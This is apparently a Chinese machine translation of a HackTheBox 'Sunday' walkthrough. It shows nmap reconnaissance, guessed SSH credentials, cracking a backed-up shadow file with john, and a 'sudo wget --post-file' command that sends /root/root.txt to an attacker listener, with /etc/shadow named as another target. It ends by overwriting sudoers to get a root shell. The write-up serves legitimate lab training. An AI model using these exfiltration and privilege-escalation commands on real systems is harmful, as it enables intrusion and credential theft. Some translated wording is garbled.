

# 周日 Wget 权限提升黑客盒子演练

> 原文：<https://infosecwriteups.com/sunday-a-wget-privilege-escalation-hackthebox-walkthrough-899e02f86819?source=collection_archive---------0----------------------->


# 摘要

Sunday 是一台运行 SSH 服务器的 Linux 主机，用户凭证较弱。这被用来访问机器并恢复`/etc/shadow`文件的备份。该备份文件用于破解一个帐户的密码哈希，该帐户能够以提升的权限访问`wget`文件。这被用来破解根标志并获得系统上的根外壳。

# 侦察

我开始对这台主机进行侦察，用`nmap`扫描检查服务版本，并在前 1000 个最常见的端口上运行默认脚本:

```
nmap -sV -sC 10.10.10.76
```

就这样？

这并没有返回太多的工作，所以我转向 UDP，看看是否有什么可以找到。

```
nmap -sU 10.10.10.76
```

好吧…

在这一点上，我仍然觉得缺少了一些东西，所以我使用`nmap`运行了一个快速的全端口扫描，并使用一些参数来提高扫描的速度:

```
nmap -sT --min-rate 5000 --max-retries 1 -p- 10.10.10.76
```

> `*-sT*` — TCP 连接扫描
> `*--min-rate*` —使 nmap 尝试将发送速率保持在或高于指定的每秒数据包数(本例中为每秒 5000 个数据包)
> `*--max-retries*` —限制重新传输次数
> `*-p-*` —扫描所有端口；1 到 65535

nmap -p-

这是一种非常快速且非常嘈杂的扫描，根据网络连接的速度和各种其他因素，它肯定会错过打开的端口，因此请谨慎使用并保持适度的怀疑。

在这次扫描之后，我又进行了一次扫描，以枚举服务版本并在其他开放端口上运行默认脚本:

```
nmap -sV -sC -p22022,34994,53936 10.10.10.76
```

纳米粒子加速器

有意思！这返回了在主机上运行的 SSH。

# 最初的立足点

我承认这一点导致了这个盒子中最令人沮丧的部分。按照真正的 CTF 方式，用户名和密码应该是猜出来的。我不太喜欢这种挑战。我尝试使用`auxiliary(scanner/ssh/ssh_enumusers)` Metasploit 模块和 [OpenSSH 用户枚举测试](https://blog.rootshell.be/2018/08/16/detecting-ssh-username-enumeration/)，以防服务被错误地指纹化为 SunSSH。这些测试的假阳性率很高，我不得不猜测。

论坛上的提示是，我们需要知道的只是主机名，我们可以猜测用户。在对“Sunday”进行多次排列后，我能够猜出密码为`sunday`的用户`sunny`。离理想很远，但现在我有了一个立足点。

# 本地枚举

我在`/backup/shadow.backup`恢复了一个文件。该文件包含 10 个用户，但只有 2 个哈希；一个给`sunny`，另一个给用户`sammy`。我把这个文件传输回我的机器，用`john`破解了`sammy`的哈希:

```
john shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt
```

以`sammy`的身份回到机器，我运行`sudo -l`来查看这个用户能够以提升的权限执行什么。这就是事情变得有趣的地方。

# 权限提升

用户`sammy`能够以提升的权限执行`wget`。这个命令通常与下载远程文件相关联——这是正确的；它的手册页名为“Wget —非交互式网络下载器”

在这个实例中，`wget`的有趣之处在于它也可以用来发送文件。我能够使用以下命令从主机中提取根标志:

```
sudo wget --post-file=/root/root.txt 10.10.14.12
```

在我的本地机器上，我只是使用`ncat`监听连接:

```
ncat -lvnp 80
```

这也有助于过滤其他敏感文件，如`/etc/shadow`来转储散列。

我更喜欢这种方法，因为它简单，对主机的影响小。还有其他方法让 HTB 用户把他们自己的`/etc/shadow`文件和`/etc/passwd`文件放在主机上，但是这些方法对使用同一盒子的其他玩家有负面影响。事实上，我第一次以`sunny`的身份访问机器时，权限被搞砸了，我可以以 root 用户身份运行任何命令，而无需密码……不用说，我必须稍后回来，并在与其他一些以“正确”方式完成此操作的人交谈后，弄清楚我应该如何得到这个盒子！

## 根壳

我发现使用`wget`获得根 shell 的最好方法是将`/etc/sudoers`文件发送到我的机器上，只编辑*和*用户的权限，以便使用提升的权限运行命令。然后，我使用`wget`将文件下载回 Sunday，并获得了一个根 shell。



我是 root